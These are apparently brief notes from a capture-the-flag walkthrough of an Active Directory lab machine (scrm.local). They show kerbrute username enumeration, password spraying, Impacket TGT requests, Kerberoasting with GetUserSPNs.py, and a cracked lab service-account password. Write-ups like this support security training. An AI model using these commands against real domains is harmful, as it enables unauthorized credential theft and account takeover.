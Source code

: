 Nmap scan
13 ports open and seems to be a domain controller
Domain name of scrm.local

Check website.
Disabled NTLM auth.

Password reset is the same as username.

Two usernames
support and ksimpson

domain of scramblecorp.com

Check for valid usernames with kerbrute

```bash
/opt/kerbrute userenum -d scrm.local --dc dc1.scrm.local users.txt
```
Gives a valid username of ksimpson

Password spray with ksimpson as the password.

```bash
/opt/kerbrute passwordspray -d scrm.local --dc dc1.scrm.local users.txt ksimpson
```
This gives a valid login 

Use the login to get a TGT
```bash
sudo python3 getTGT.py scrm.local/ksimpson:ksimpson
```

Check for SPNs
```bash
python3 GetUserSPNs.py scrm.local/ksimpson:ksimpson -dc-host dc1.scrm.local -k -no-pass -request
```
Crack the hash
sqlsvc:Pegasus60
